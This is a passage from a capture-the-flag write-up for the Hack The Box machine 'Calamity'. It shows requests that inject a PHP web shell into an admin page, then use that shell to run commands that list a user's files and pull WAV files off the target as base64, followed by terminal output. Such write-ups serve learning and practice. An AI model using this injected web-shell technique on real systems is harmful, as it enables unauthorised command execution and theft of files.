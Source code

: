 We can also look for other files in the `/home/xalvas` directory.

```http
GET /admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd=base64+/home/xalvas/recov.wav HTTP/1.1
Host: 10.10.10.27

...
<base64>
```

```bash
luc@kali:~/HTB/Calamity$ base64 -d recov.wav.b64 > recov.wav
luc@kali:~/HTB/Calamity$ file recov.wav
recov.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, stereo 44100 Hz
```

Where we can find a `recov.wav` file, we can base64 this file to move it to our machine. We save this base64 content as `recov.wav.b64` and decode it to `recov.wav`. Playing this file shows that it's part of [this song](https://www.youtube.com/watch?v=dQw4w9WgXcQ).

```http
GET /admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd=ls+-lsa+/home/xalvas/alarmclocks HTTP/1.1
Host: 10.10.10.27

...
rick.wav
xouzouris.mp3
```

```http
GET /admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd=base64+/home/xalvas/alarmclocks/rick.wav HTTP/1.1
Host: 10.10.10.27

...
<base64>
```

```bash
luc@kali:~/HTB/Calamity$ base64 -d rick.wav.b64 > rick.wav
luc@kali:~/HTB/Calamity$ file rick.wav
rick.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, stereo 44100 Hz
```

We save `rick.wav` the same way as we did saving `recov.wav`. Playing `rick.wav` sounds the same as playing `recov.wav`.

```bash
luc@kali:~/HTB/Calamity$ md5sum *wav
a2c5f6ad4eee01f856348ec1e2972768  recov.wav
a69077504fc70a0bd5a0e9ed4982a6b7  rick.wav
```

We can see that the two audio files have a different md5sum so they sound the same, but aren't the same file.
